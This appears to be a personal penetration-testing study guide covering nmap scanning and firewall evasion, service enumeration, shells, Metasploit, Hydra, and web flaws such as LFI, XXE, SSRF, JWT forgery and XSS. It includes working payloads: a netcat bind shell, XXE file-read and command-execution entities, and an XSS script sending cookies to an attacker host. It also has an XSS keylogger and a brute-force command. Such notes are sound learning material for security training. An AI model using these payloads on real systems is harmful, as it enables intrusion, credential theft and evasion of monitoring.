


Penetration Testing
Content Discovery
One of the initial steps of Penetration Testing is
Content Discovery. This module will illustrate some common methods and tools used in this stage of pentesting.
General Content Discovery:
•
S3 Buckets: storage service provided by amazon AWS. Poorly configured access permissions can allow access to files that souldn't be available to the public. The format of the S3 buckets is
http(s)://{name}.s3.amazonaws.com•
Port scanning using
nmapWebserver Content Discovery:
• browser extension
Wappalyzer to discover web frameworks and more (NOTE: it's not always reliable)
• endpoint enumeration using gobuster
• subdomain enumeration:
◇ using
gobuster ◇ looking up a domain in a site like
https://crt.sh, only if the site is public and has a SSL/TLS certificate
◇ using google dorking:
-site:www.domain.com site:*.domain.com ◇ using dnsrecon:
dnsrecon -t brt -d domain.com ◇ using Sublist3r (
https://github.com/aboul3la/Sublist3r)
• if the site is public, we can try to recover old versions of web pages on the Wayback Machine (
https://archive.org/web/)
•
Nmap
Nmap is an extremely popular tool for port scanning a target.
• typical command you want to run:
sudo nmap -vv -sC -sV <ip> ◇ this will print the results on screen, if you want them saved in a file use the option
-oN scanresults.txt•
-p option is used to tell nmap the range of
ports to scan (by default Nmap scans the most common 1000 ports for each protocol):
◇
-p 80 scans only port 80
◇
-p 1000-1500 scans only from port 1000 to 1500
◇
-p- scans all the 65535 ports.
•
scan types:
◇
-sT (TCP Connect scan): nmap tries to perform the TCP three-way handshake (SYN, SYN/ACK, ACK) to each port:
▪ if after the initial SYN packet, the server returns a packet with the RST flag set, then nmap can establish the port is closed
▪ if the server does not respond, the port is considered
filtered, because there's probably a firewall that is configured to just drop certain incoming packets.
However that's not always the case, because a firewall can also be configured to respond with a RST TCP packet (this makes it difficult to get an accurate reading of a target).
◇
-sS (SYN scans): similar to tcp scans, but nmap sends a RST packet after receiving a SYN/ACK from the server. These are the default scans of nmap if run with
sudo permissions.▪
▪
Advantages:
- it can be used to bypass older Intrusion Detection systems, as they are looking for a full three way handshake (for this reason they are also referred as "stealth" scans)
- these types of scans are often not logged by applications, as standard practice is to log a connection once it's been fully established
- they are faster than TCP Connect scans, as nmap doesn't have to bother about disconnecting after the handshake
▪
Disadvantages: - they require sudo permissions
- unstables services are sometimes brought down by SYN scans
◇
-sU (UDP scans): nmap send UDP packets to the server and hopes to receive a response. These scans are MUCH slower than TCP scans.
▪ if the server responds with a UDP packet (very unusual) then the server marked the port as open.
▪ if the server doesn't respond, it marks the port as open|filtered
▪ if the server responds with a IMCP packet with a message saying the port is unreachable, then nmap mark the port as closed
◇
-sN (NULL scans): nmap send a TCP request with no flags set at all. This is a stealth scan, used to bypass firewalls that drop incoming TCP packets which have the SYN flag set.
▪ the server should respond with a RST packet if the port is closed
▪ if the port is open, or if there's a firewall, there SHOULD (according to RFC 793) be no response to the malformed packet, and the port is marked as open|filtered.
▪ if the target responds with an ICMP unreachable packet, the port is marked as filtered
◇
-sF (FIN scans): nmap send a TCP request with the FIN flag set. Same considerations as -sN
◇
-sX (Xmas scans): sends a malformed TCP packet. Same considerations as -sN
◇
ICMP Network Scanning: if we want to perform a 'ping sweep', we use the -sn switch (don't scan any ports) specifying the IP range with either a hyphen:
nmap -sn 192.168.0.1-254 or CIDR notation:
nmap -sn 192.168.0.0/24 ▪ if ran on a local network as sudo, it relies on ARP requests, otherwise on ICMP echo packets
▪ some firewalls (like the Windows one) block all ICMP packets. We can force nmap to scan every IP without trying to ping it first by using the option
-Pn. The downside of course is that this type of scan requires a LOT of time.
• other common firewalls evasion techniques:
◇
--badsum: used to generate invalid checksum for packets. Can be used to determine the
presence of a firewall/IDS, since these may potentially respond without checking the checksum. If there's not a firewall, the packet instead reaches the host and is immediately dropped as soon as the checksum is checked.
◇
-f or
--mtu <number> to fragment the packets (automatically in the first case, manually in the second)
◇
--scan-delay <time>ms to add a delay between packets sent. Useful to evade any time-based triggers of firewalls/IDS
• NSE (Nmap scripting engine): executes scripts written in Lua language, that can scan for vulnerabilities or even automate exploits
◇ every script is of a category that identify how much impactful on the target the script is (safe, intrusive, etc.)
◇ to execute scripts there's the switch --script, that can be used in multiple ways:
--script=<category> or
--script=<name_of_script> --script-args scriptname.arg1=value,scriptname.arg2=value2,(...)• useful links:
◇
https://nmap.org/nsedoc/ for a complete list of nse scripts (also present in
/usr/share/nmap/scripts, with the complete list in scripts.db)
◇
https://nmap.org/book/man-bypass-firewalls-ids.html for more ways of bypassing firewalls
Gobuster
Gobuster is a tool used to brute-force (or enumerate):
Directory and files in a web sites:
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php, html
• -x is optional and it tells gobuster to search also for file with .php and .html extensions
Subdomains of a website:
Virtual Hosts:
Open Amazon S3 Buckets:
Google Dorking
• if we google something between quotation marks, google will interpret that as exact and only return the results of the the exact phrase provided
• if we insert site: before our research, Google returns with fewer results, and it's more likely that we find the website we were looking for
• filetype: search for a file by its extension
• cache: view google's cached version of a specified url
• intitle: the phrase must appear in the title of the page. DANGEROUS NOTE: if you search for intitle:index.of you may see endpoints that should probably be hidden. Clicking on the results is discouraged :)
• inurl: returns results that have the specified word in the URL
Exploitation
Network Services
Here is a list of common network services you may find when targeting a machine.
For every service:
• I first try to explain what it does, how it works and how to connect to it (
Description)
• how to extract useful information from it, with or without being authenticated (
Enumeration)
• common misconfigurations or vulnerabilities (
Exploitation)
Useful links about network services in general:
•
https://web.mit.edu/rhel-doc/4/RH-DOCS/rhel-sg-en-4/ch-exploits.htmlSSH
SSH (defualt port: 22)
• Description:
◇ service to execute commands in a remote machine securely
◇ to access to a machine through ssh, we can use ssh username@ip -p port
▪ if -p is not provided, ssh will try to connect to port 22
▪ if a username is not provided, ssh will try to connect using the username of your machine
▪ if the ssh server requires a private ssh key to log in, we have to add the option -i path_to_privatekey
• Enumeration:
• Exploitation:
◇ private ssh keys should never be stored in the remote machine. This is a common misconfiguration that may be exploited, if we have read permissions to the key file
◇ private ssh keys can be protected with a password. If the password is weak, we can easily crack it using John The Ripper
SMB
SMB: (default ports: 139 for NetBIOS, 445 for TCP/IP)
• Description:
◇ response-request protocol used to share various resources on a network
◇ client first establishes a connection with the server, then it can sends commands to share, open, read and write files.
◇ runs on windows, and also linux through an open source server called Samba
◇ SMB share: a sort of filesystem that can be private or anonymous (public)
◇ to connect to a share we use SMBClient like this: smbclient //IP/SHARE -U user -p port
• Enumeration:
◇ enum4linux is a good tool to do that (already installed in Kali). The usual command you want to run is: enum4linux -a 10.10.10.10
• Exploitation:
◇ (pretty rare) CVE-2017-7494: allows RCE without even having any authorization
◇ misconfigurations in the system, usually an anonymous share that contains sensitive information.
Telnet
Telnet: (default ports: 23)
•
Description:
◇ telnet is an application protocol (client-server) that let you connect and execute commands on a remote machine that is hosting a telnet server
◇ WAY more unsafe than ssh, all messages are sent in clear text and there are no specific security mechanisms
◇ to connect to a telnet server we use the command
telnet ip port•
Enumeration:
◇ there are no specific tools,
nmap is sufficient to do that
◇
Exploitation:
FTP
FTP: (default ports: 21)
•
Description:
◇ client-server protocol used to allow remote transfer of files over a network
◇ command channel, used for transmitting commands, and data channel, used for transmitting data
◇ FTP server may support wether active or passive connections, or both
▪ Passive FTP connection, the server opens a port and the client connects to it
▪ Active FTP connection, the client opens a port and listen. The server is required to actively connect to it
◇ FTP share: sort of filesystem that can be protected or anonymous (you don't need login credentials to access it)
◇ to connect to a ftp server use the command
ftp ip port. The server will then ask for a username and a password.
▪ If you want to login anonymously, type
anonymous in the username prompt, and just hit return when it asks for a password.
▪ use
ls to list files and directories in the remote directory,
get to download a file from the remote machine,
put to upload a local file to the remote machine
•
Enumeration:
◇ there are no specific tools to do that,
nmap is sufficient to reveal any anonymous shares
◇ with some FTP servers it's possible to enumerate all the users without being authenticated by using the command cwd (
https://www.exploit-db.com/exploits/20745)
•
Exploitation:
◇ FTP traffic is unencrypted, leaving it vulnerable to a man-in-the-middle attack. Its secure version is called SFTP
◇ anonymous shares can contain sensitive data
NFS
NFS: (default ports: 111 (may be called rpcbind), 2049 for daemon)
• Description:
◇ used for file sharing between computers
◇ the client first requests the server to mount a remote directory on a local directory (the same way it can mount a physical device).
◇ the mount service checks if the user has the permission to access those files, and returns a file handle which identifies every file and directory on the server.
◇ when a user wants to access a file, an RCP call to NSFD (NSF daemon) is made with the appropriate parameters
◇ to access a NFS share, we can use this command (replace /tmp/mount with another directory if you want): sudo mount -t nfs IP:share /tmp/mount/ -nolock
• Enumeration:
◇ use the command showmount -e ip to list all the visible NFS shares
• Exploitation:
◇ privilege escalation with NFS server active: if we have a low privilege shell, and we have access to the NFS share, we can upload an executable file with the SUID bit set to get a shell with root privileges.
NOTE: this works ONLY if "root squashing"is disabled! If it's enabled, this prevents anyone connecting to the NFS share from having root access.
SMTP
SMTP: (default ports: 25)
• Description:
◇ it's one of two protocols necessary for email transfer. SMTP is used to handle the sending (and part of the reception) of messages:▪
▪ first the mail user agent (email client or external program) connects to its SMTP server (example: smtp.gmail.com) with a SMTP handshake (won't be shown in detail here)
▪ if the recipient's domain is the same of the SMTP server (example: john@gmail.com), the SMTP just sends the email to the respective POP/IMAP server.
Otherwise, if it's different (example: john@yahoo.com), it makes a request to a DNS server to get the ip of the right SMTP server.
▪ once the ip is found, the SMTP server makes a connection to the recipient's SMTP server. If it fails to do that, the email gets put into an SMTP queue
▪ the recipient's SMTP server receives the email and checks if the domain and the user name of the incoming email have been recognised. And then it forwads the email to the right POP/IMAP server.
◇ The POP/IMAP server handles part of the reception of the emails and uses two protocols: POP and IMAP▪ POP downloads all the messages from the inbox to the client, IMAP just downloads the new messages.
• Enumeration:
◇ vulnerable mail servers can provide an inital foothold into a network
◇ to find out the version of an SMTP server we can use the "smtp_version" module of MetaSploit
◇ to enumerate users, we can use the "smtp_enum" module of MetaSploit, which uses two internal commands of SMTP: VRFY to verify the name of valid users, and EXPN which reveals the actual address of user's aliases and lists of e-mail
◇ an alternative to that is the command smtp-user-enum
MySQL
MySQL: (default ports: 3306)
• NOTE: here I do NOT explain SQL injections. Here I explain what to do in case a server has a MySQL port open!
• Description:
◇ RDBMS, Relational Database Management System
◇ Databases: the most common way to store a large amount of data in a format that is easily accessible from many locations at once
▪ can be set up on dedicated servers or stored as a single file on the computer (flat-file databases)
◇ commonly used as backend database for webservers
◇ In MySQL the keyword "SCHEMA" is the same as "DATABASE"
◇ MySQL hashes are used to index data into a hash table, so that searching and accessing data is more efficient
◇ we can connect to a MySQL server using the command mysql -h IP -P port -u username -p
▪ in alternative we can use the "mysql_sql" module of metasploit
• Enumeration:
◇ usually not the first point of call when getting inital information on a server.
◇ we can use the "mysql_schemadump" module of metasploit to dump all the structure of databases (this returns a LOT of data) or the "mysql_hashdump" module to dump all the MySQL hashes (included eventual hashed passwords!)
Shells
This module is all about shells, the tool we want to obtain from a server when we find a RCE vulnerablity.
Here is an
extremely useful site if we want to craft commands that spawn shells (
https://www.revshells.com/)
•
Reverse shell: the target executes code that connects
back to your computer. This method bypasses firewall rules that block connections to arbitrary ports. The downside is that you need to set up a listener on your machine using the command
sudo nc -lvnp <port> , and create a tcp tunnel with ngrok if your machine is not reachable by the internet
•
Bind shell (less common): the target executes code that starts a listener on an arbitrary port of the server (for example
nc -lvnp <port> -e /bin/bash. The port has to be below 1024, otherwise you need sudo privileges). The attacker then connects to the port to access the shell.
•
WebShell: a webpage that contains script (like PHP or ASP) that executes code on the server. This is usually just the first step to get a more stable and easy to use reverse/bind shell.
A collection of webshells can be found in
/usr/share/webshells (only if you're using kali of course)
•
Interactivity: a shell is said interactive if it allows you to interact with programs after executing them
•
Staged vs Stageless payloads: stageless payloads are the more common type, they're just one piece of code that when executed, sends a shell back immediately to the waiting listener. Staged payloads, on the other hand, are divided in two parts: first the
stager is sent, that doesn't contain any reverse shell code but it just connects back to a listener. The actual shellcode (also called
stage) is loaded and executed through this connection, so that it won't probably be caught by anti-virus softwares.
•
How to stabilize a shell: the first thing we do when obtaining a shell is to stabilize it, that means enabling auto-completion, command history and most importantly, prevent it from killing it with Ctrl+C
◇
[Only Linux shells] Using python:
1- run on the shell
python -c 'import pty;pty.spawn("/bin/bash")' - NOTE: you may need to specify the version of Python, so use
python2 or
python3 instead of
python 2- run on the shell
export TERM=xterm 3- background the shell (Ctrl+Z) and run
stty raw -echo;fg.
- After you kill the shell you won't be able to see what you write, just type
reset and press enter to re-enable all the features of the terminal, or close and reopen the terminal
- NOTE: change the terminal tty size using
stty rows <number> and
stty cols <number> if some commands overwrite everything on the screen. You can see the tty size of your default terminal using
stty -a ◇
[Windows and Linux shells] Using rlwrap:
▪ when setting up the listener, run
rlwrap nc -lvnp <port> ▪ you still have to execute
stty raw -echo; fg to fully stabilize the shell
◇
[Only Linux shells] Using Socat: socat has more features than netcat (like encrypted shells), but has the disadvantage that it only works if the target has socat installed (and that's pretty rare). It won't be explained here.
•
Upgrading to a "normal" shell: once we have a shell, the next thing we want to do is creating a way to access the machine using a "normal" method like ssh.
• Notes:
◇ the option
-e of netcat is not included in most versions of netcat
Tools
Metasploit
Metasploit is a very powerful tool used to execute exploits on a target. To start using this tool, you need to run the command msfconsole
Here are the most important commands:
• use the command search to find various modules
• use the command use to select a module +
◇ the full path of the module returned by search OR
◇ the index of the module in the search result (in the '#' column)
• use the command info to view information about a specific module or the one that we selected.
• every module has some options that have to be set before launching the exploit. To get a list of them, use the command options
• use the command set VAR_NAME value to set a variable's value, and the equivalent get command to retrieve the value
◇ to change the value of a variable to null use the command unset
• there are some variables (like RHOSTS, the target ip address) that are common to all modules. For this reason you can set global variables with the commands setg and getg (and also unsetg)
• use exploit or run to execute the exploit
• use sessions -i SESSION_NUMBER to connect to a particular session (a.k.a. instance of an exploit). use the command without any option to list all sessions.
• use db_nmap to scan ports of a server and feed results directly into the database (you have to run msfdb init first, I think?)
◇ once the scan is over you can use commands like hosts, services, vulns to see the results and find eventual vulnerabilities
• once a payload is successful we'll obtain a meterpeter shell, from which we can run other payloads or just elevate to a normal shell. Here are the most important commands:
◇ sysinfo to get information about the system
◇ upload to upload a file to the target
◇ load to load a meterpeter extension (more below)
◇ run to run a meterpeter script
◇ shell to drop into a system command shell (if you quit the shell, you'll be sent back to the meterpeter command line)
▪ if you need a powershell shell, use load powershell and then powershell_shell
◇ bg to background the session and return to metasploit console
◇ migrate PID to move the meterpeter process to another (more stable) process
• metasploit extensions
◇ kiwi (mikikatz)
• metasploit scripts
◇ multi/handler, useful tool for catching reverse shells and for staged payloads
◇ post/multi/recon/local_exploit_suggester, useful script to check for various exploits we can run to elevate privileges
◇ post/windows/gather/checkvm to determine if a windows machine is in a vm
◇ post/windows/manage/enable_rdp to force RDP to be available in a windows machine
Msfvenom
msfvenom is a tool that is part of the metasploit framework, and it's used to generate payloads
• -p <OS>/<arch>/<payload> option is used to specify the payload
◇ for windows 32bit targets the arch is not specified
◇ the stageless payloads are denoted with underscores (shell_reverse_tcp), the staged payloads are denoted with a foward slash (shell/reverse_tcp)
• -f option is used to specify the output format
• -o option is used to specify the output location and filename for the generated payload
• LHOST=<ip> option to specify the IP to connect back to
• LPORT=<port> option to specify the port
• use msfvenom --list payloads to list all avaliable payloads
Ffuf
ffuz is a tool used to fuzz web applications. Here are the most common options
• -w to specify a wordlist
◇ to specify more than a wordlist: -w /wordlist1.txt:W1,/wordlist2,txt:W2
• -X to specify the request method (default: GET)
• -d to specify the data to send in the request's body
• -H to specify one or more headers (separated by a colon) to include in the request
• -u to specify the URL to make the request to
• to specify where ffuf has to insert the values of our wordlist in the request, we use the special keyword FUZZ in the -H, -d or -u options.
◇ if you specified more than one wordlist in the -w option, use the keywords W1 and W2 instead of FUZZ
• we can show only the responses that have certain characteristics using these options:◇
◇ -mc 200, to select responses that have returned a 200 status code
◇ -ml 10, to select responses that have 10 lines
◇ -mr "Hi", to select responses that contain the word "Hi"
◇ -ms, for the size of HTTP response
◇ -mw 200, to select responses that have 200 words
• we can do the opposite (exclude responses) using the similar options -fc, -fl, -fr, -fs, -fw
Hydra
password cracking tool that can perform dictionary attacks against more than 50 protocols
• basic syntax: hydra -t 4 -l user -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
◇ -t : number of parallel connections per target
◇ -l : the name of the user
◇ -P : the path of the wordlist
◇ -vV : verbose mode
◇ ftp: the type of protocol
Webservers & security
Web Frameworks
Django
Python framework, already installed with Kali!
• To create a new project, run the command
django-admin startproject {project_name}• This creates a directory dedicated to your project, which contains:
◇ a directory named after your project
◇ a python script called manage.py, that lets you interact with your Django project in various ways, by running the command
python3 manage.py {command} The most common commands are
▪
migrate, to automatically configure new files (
recommended to run after creating a new project) or migrate changes
▪
runserver, to deploy the website on your server. Append 0.0.0.0:8000 to the command to run the server only to your local network.
▪
createsuperuser, to create an admin account for your Django web admin panel (endpoint: /admin)
▪
startapp, to initialize an app for your project. Projects can have infinite amount of apps. The syntax is
python3 manage.py startapp {app_name}• How to create a website
1) create an app using the command I explained above
2) head over to settings.py and include your app name in *INSTALLED_APPS*
3) Head over to urls.py and add this line in the array 'urlpatterns':
path('{app_name}/', include('{app_name}.urls')) NB: You have also to import 'include' from django.urls, otherwise you'll get an error!
4) create a urls.py file in the app directory. Here's a template for that:
# urls.py
from django.urls import path
from . import views
app_name = '{app_name}'
urlpatterns = [
path('', views.index, name='index')
]
'index' is the name of a function we need to define in views.py (see the image below for more info).
NB: let's say the first argument of path is "/example". To access that, the endpoint becomes /{app_name}/example
5) write the function in the views.py. Here's a basic one:
from django.http import HttpResponse
def index(request):
return HttpResponse("Hello World!")
6) migrate changes
7) start the server, head over to the endpoint
/{app_name} and you should see your app
• How does django handle http requests?
•
Templates: ◇ with templates Django is able to automatically generate HTML markdown
◇ templates need to be stored in a 'templates' in your app's folder
◇ to understand how templates work let's look at this base.html file:
<!DOCTYPE html>
<html lang='en'>
<head>
<meta charset="UTF-8">
<title>{% block title %}My website {% endblock %}</title>
</head>
<body>
{% block content %} {% endblock %}
</body>
</html>
• let's create now an html file that inherits from base.html
{% extends 'base.html' %}
{% block content %}
Hello, World!
{% endblock %}• to show this page to the client we need to modify our views.py, and we have to invoke the function
render(request, 'index.html')Web Security
Web Vulnerabilities
Common Security Misconfigurations:
• default passwords (particularly common in embedded and IoT devices)
• overly detailed error messages
• not using HTTP security headers
• Poison Null Byte attack:
◇ used to bypass url filtering
◇ it's a NULL terminator, that means that the server will consider the string only up to that point (but not the url filter, that's why it works)
◇ the URL encoded bytes to use in the URL is %2500
Command Injection
• when web applications take input or user-controlled data and run them as system commands without properly sanitizing the input.
• there are two types of command injection
◇
active: the output is returned to the user. In this case we can just execute commands like
whoami (which is both for linux and for windows!)
◇
blind: the output is not returned to the user.
▪ to check if we have command injection in the first place, we can open a netcat listener or listen incoming connections with tcpdump, and then use commands like ping or curl on the remote machine.
▪ if there's a firewall that prevents that, we can instead use commands like
sleep (Linux) and
timeout (Windows) and see if the application hangs for the seconds we specified
• useful links and tools:
◇
https://github.com/payloadbox/command-injection-payload-listEmail Injection
• allows attackers to send email messages without prior authorization by the email server
• caused by extra data in the attacker's request fields, that are not interpreted by the server correctlyFile Inclusion
• caused by improper sanitazion of user input
•
Local File Inclusion (LFI): ◇ occurs when the application uses functions like PHP's
include, require, file_get_contents without doing proper checks on user input
◇ when we're checking for a LFI vulnerability, we can try to read these files:
▪ Linux:
/etc/passwd ▪ Windows:
C:\boot.ini or
C:\windows\win.ini ◇ if we can't read the file by giving in input its absolute path, we can still try path traversal attacks. Here are the most common attacks:
▪
appended path traversal -
include("/mydir" + user_input) - we can perform a dot-dot-slash attack by appending some
../ before the path of the file we want to read
▪
prepended path traversal -
include(user_input + ".txt") - use the
file:// scheme, if it is supported by the language. So the payload would be
file://localhost/etc/passwd?var= -
(PHP <5.3.4) adding a null byte (
%00) at the end of the payload
▪
appended and prepended path traversal -
include("/mydir" + user_input + ".txt") -
(PHP <5.3.4) dot-dot-slash attack + null byte
•
Remote File Inclusion (RFI):
◇ occurs when an attacker is able to include a file from a remote server
• useful links:
◇
https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File Inclusion - Path Traversal#basic-lfi-null-byte-double-encoding-and-other-tricksBroken Authentication
Types of attack:
• Dictionary attack: classic bruteforcing of login credentials with a wordlist.
• Re-registration:
◇ caused if the user input is not properly sanitized
◇ we can get access to the content of a user that already exists by re-registering that username but with a slight modification (for example adding a space before the username).
File Upload Vulnerabilities
• there are different ways we can try to exploit a website with a file upload feature:
◇ overwriting existing files: if the web user has write permissions on the web pages and the uploaded file is not assigned with a new name, then we may be able to overwrite an existing file. Sometimes this lets us 'create' new vulnerabilities in the site!
• bypassing filters (for client-side filtering we can just use
burp to edit the request, for server-side filtering it's more difficult):
◇
extension validation: filter that compare the extension of the uploaded file to a blacklist/whitelist
▪ if you can succesfully upload a file with a completely random file extension (ex. .randomextension) then it's most definitely a blacklist filtering.
▪ there could be a vulnerability in the way the site parses the file name (for example it may check only the first dot it finds to determine the extension)
▪ in case of a blacklist, we can try to use analouge extensions for the file we can upload (for example, if it's a .php file, we could try these other analogue extensions:
.phtml,.php3,.php4,.php5,.php7,.phps,.php-s,.phar,.pht ◇
MIME validation: the content type header in the POST request is checked
▪ to see if this filter present, try to upload an innocent file you uploaded before, but change the MIME type first
◇
Magic Number validation: the string of bytes at the very beginning of the file is checked
▪ to see if this filter present, try to upload an innocent file you uploaded before, but change its magic number first
▪ if the server checks only the magic number, we can try to upload a script that has the magic number the server wants and then see if we manage to execute it
▪ how to edit the file signature of a file: use the command
hexeditor .
NOTE: you can't add bytes at the start of the file with hexeditor. To do that you first have to add random bytes with a normal text editor like vim.
◇
File Length filtering (usually not an issue for an attacker):
▪ to enumerate the filter, start by uploading a small file and then uploading progressively bigger files
◇
File Name filtering: removes "bad characters" that could cause problems on the file system when uploaded
◇
File Content filtering: more complicated filtering system that may scan the full contents of the file to be sure it's not spoofing its extension
• when you do manage to succesfully upload a payload, if you don't know where the file is located you can try to use
gobuster to enumerate the website
◇ in this case, the
-x php,txt,html option can be really useful
JWT Tokens Vulnerabilities
• JWT are divided into 3 parts, base64 encoded and separated by a dot:
◇
Header: consists of the algorithm used and the type of the token. Here is an example:
{"alg": "HS256", "typ": "JWT"} JWT supports these algorithms
▪
HMAC (symmetric)
▪
RSA256, HS256 (asymmetric)
▪
None, no encryption used
◇
Payload, contains access given to a certain user and depends on the website
◇
Signature, used to grant integrity of data
• Vulnerabilities exist but they are all caused by misconfiguration mistakes:
◇ if "None" algorithm is used, the signature is not checked and the attacker can freely edit the payload part. In the signature part you can write anything or even omit it completely (however you can't omit the dot!)
◇ RS256 to HS256: if we know the RSA public key, we can try to modify the algorithm in the header to HS256 and then use public key to sign the data. This works only if the function to verify the token is misconfigured! Here's a simple script in python to do that:
import jwt
public = open('public.pem', 'r').read()
print jwt.encode({"replace this":"with the payload part"}, key=public, algorithm='HS256')
: this doesn't work for versions of pyjwt later than 0.4.3. So when you install the package, use
pip3 install pyjwt==0.4.3• useful links:
◇
https://jwt.io/ (really useful site to decode a jwt token and do conversions)
◇
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON Web Token ◇
https://github.com/lmammino/jwt-cracker (to crack the HS256 secret of JWT tokens)
SSRF
• Server Side Request Forgery (SSRF) is a vulnerability where an attacker can communicate with internal services (generally protected by firewalls) by making further HTTP requests through the server
• caused by mistakes in controlling user input when the input is an URL/IP address. Here are some places where an SSRF can be spotted:
◇ URL parameter
▪ the parameter may not be full but it can also be a part of the hostname. Example:
http://example.com/item/2?param=api makes a request to
api.example.com/item/2.
We can replace the parameter with
attacker.com?x= ▪ hidden field in a form
◇ common payloads:
http://127.0.0.1/ , http://localhost/ , http://0.0.0.0/, http://[::]/, http://::/ ▪ you can also try to use other URL Schemas (
file:// to try to read files from the server itself)
▪ if these do not work, you can try to encode the IP in a decimal or hexadecimal format (
https://gist.github.com/mzfr/fd9959bea8e7965d851871d09374bb72)
▪ if that doesn't work, you can try to setup a server with a simple page that redirects to localhost, and then try to submit the URL of the page
• useful links and tools:
◇
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Request Forgery ◇
https://requestbin.com/ (may be useful to spot a SSRF vulnerablity)
CSRF
• Cross Site Request Forgery (CSRF) occurs when a user visits a page on a site (usually created by the attacker), that performs an action on a different, vulnerable site, like resetting password etc.
◇ useful links and tools:
▪
https://github.com/0xInfection/XSRFProbe, tool that tests if a site vulnerable to CSRF and can also craft payloads
XXE
• XML External Entity (XXE) is a vulnerability that abuses features of
XML parser/data.
• can cause sensitive data exposure, DoS, and in the most extreme cases, RCE
• two types of XXE
◇ In-Band XXE attack, the attacker receive an immediate response to the XXE payload
◇ OOB (out of band) XXE attacks, or blind XXE, where there is no immediate response and the attacker has to reflect the output of the attack on another file or on their own server
• using knowledge of
XML and
DTD (explained below in this document), we can read files from the system. Here's how to do it:
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
• if the
php expect module is loaded, we can get RCE using this payload
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://id (or another command)">]>
<root>&xxe;</root>
• useful tools and links:
◇
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20InjectionXML
• eXstensible Markup Language (XML) is a markup language for storing and transporting data, platform and programming language indepedent.
•
DTD and Schema can be used to
validate a XML document, in other words to ensure the absence of any syntax error
• Structure of an XML document
◇ XML Prolog (optional):
<?xml version="1.0" encoding="UTF-8"?> ◇ DOCTYPE declaration (optional):
<!DOCTYPE root_element SYSTEM "DTD_location">. Keep in mind that you can also declare a DTD
inside the doctype declaration
◇ ROOT element: top-most element that encapsulates all the other ones. If the document doesn't have a root element it's considered invalid.
• like in HTML we can use attributes in XML too, pretty much in the same way as we do in HTML:
<text category = "message">hello</text>• XML is case sensitive
DTD
• Document Type Definition (DTD) defines the structure and legal elements/attributes of an
XML document
• Structure (example):
◇
<!DOCTYPE note [ between these brackets elements are defined ]> to define the root element of the document (in this case it's "note")
◇
<!ELEMENT note (to,from,heading,body)> to define the note element (must contain 4 elements)
◇
<!ELEMENT to (#PCDATA)> defines the element "to", that has the type #PCDATA (parseable character data)
◇
<!ENTITY writer "Donald Duck."> to define an entity (sort of constant) named writer.
▪ This can be used in XML like this:
&writer; ▪ Entities can also defined externally using
<!ENTITY name SYSTEM "URI/URL">XSS (Cross Site Scripting)
• caused by improper user input sanitation.
• XSS is possible in Javascript, VBScript, Flash and CSS
• There are different types of XSS attacks:
◇
Stored XSS: most dangerous type of XSS attack.
The attacker inserts malicious payload into the website's source code, so that every time a client visits the website, the malicious script is executed.
A common payload to steal the cookie of the victim is this:
<script>window.location='http://attacker/?cookie='+document.cookie</script> ◇
Reflected XSS: most common type of XSS attack.
The attacker tricks a victim into clicking a URL with a malicious payload. The website includes the payload in response back to the user, and it's executed. A typical payload would be
http://example.com/search?keyword=<script>...</script> ◇
DOM-Based XSS: similar to Reflected XSS, but the payload is injected by vulnerable client side code (NOT modified by the attacker!) that modifies the DOM of the page. It is not injected by the server.
• With XSS you can do a million things, including cookie stealing, keylogging, webcam snapshot, phishing, port scanning etc.
◇ how to IP and Port Scan with XSS: here's a simple example of a payload who scans all the ip addresses ranging from 192.168.0.0 to 192.168.0.255
<script>
for (let i = 0; i < 256; i++) {
let ip = '192.168.0.' + i
// Creating an image element, if the resource can load, it logs to the link controlled by the attacker.
// NOTE: this payload probably doesn't work
let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=\"http:/attacker/' + ip + '\"">'
document.body.innerHTML += code // This is adding the image element to the webpage
}
</script>
▪ Here's a more trustworthy payload for portscanning:
https://github.com/aabeling/portscan ▪ NOTE: Keep in mind that when doing this type of attack there are many factors that will effect results such as response times, firewall rules etc.
◇ How to create a keylogger using XSS: here's a simple example on how to do that
<script type="text/javascript">
let l = ""; // Variable to store key-strokes in
document.onkeypress = function (e) { // Event to listen for key presses
l += e.key; // If user types, log it to the l variable
console.log(l); // update this line to post to your own server
}
</script>
• Methods to bypass filters:
